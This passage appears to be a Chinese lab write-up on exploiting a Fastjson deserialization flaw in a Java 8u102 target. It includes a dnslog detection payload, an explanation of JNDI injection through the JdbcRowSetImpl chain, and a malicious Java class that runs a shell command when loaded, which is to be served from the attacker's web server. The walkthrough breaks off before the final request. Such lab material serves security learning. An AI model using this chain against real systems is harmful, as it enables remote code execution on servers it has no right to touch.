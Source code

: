 使用 Burp Suite 抓包，并修改请求方式为 POST，尝试使用两种方式分别判断是否使用 Fastjson 库。

1. 修改请求方式为 POST，并输入非法的 JSON 格式，判断是否报错：

![image-20230722002332468](https://pic.mewhz.com/blog/image-20230722002332468.png)

2. 使用 dnslog 探测：{"x":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}：

![image-20230722005850015](https://pic.mewhz.com/blog/image-20230722005850015.png)

![image-20230722005919707](https://pic.mewhz.com/blog/image-20230722005919707.png)

两种方法分别判断出使用 Fastjson 库

因为目标环境是 Java 8u102 ，没有 com.sun.jndi.rmi.object.trustURLCodebase 的限制，我们可以使用 com.sun.rowset.JdbcRowSetImpl 的利用链，借助 JNDI 注入来执行命令。

**JDNI**：Java Naming and Directory Interface，Java 命名和目录接口；是 SUN 公司提供的一种标准的 Java命名系统接口，JNDI 提供统一的客户端 API ，通过不同的访问提供者接口 JNDI 服务供应接口(SPI)的实现，由管理者将 JNDI API 映射为特定的命名服务和目录系统，使得 Java 应用程序可以和这些命名服务和目录服务之间进行交互。简单点来说就相当于一个索引库，一个命名服务将对象和名称联系在了一起，并且可以通过它们指定的名称找到相应的对象。

**com.sun.jndi.rmi.object.trustURLCodebase**：允许从远程的 Codebase 加载 Reference 工厂类。

**Codebase**：远程装载类的路径。

**Reference**：该类表示对在 命名/目录 系统外部找到的对象的引用，提供 JDNI 中类的引用功能。

在 Kali 编译以下代码：

```java
// TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

```bash
javac TouchFile.java
# 编译 java 文件为 class 文件
```

防止远程类利用失败，Kali 需同样使用 Java 1.8 的环境进行编译

安装方式可见博客内容：[Linux 安装 Java 1.8 环境](https://mewhz.com/posts/linux-java8)

利用 Python 快速启动临时 web 服务，这样后续漏洞利用时，靶机可以访问到该目录下的文件
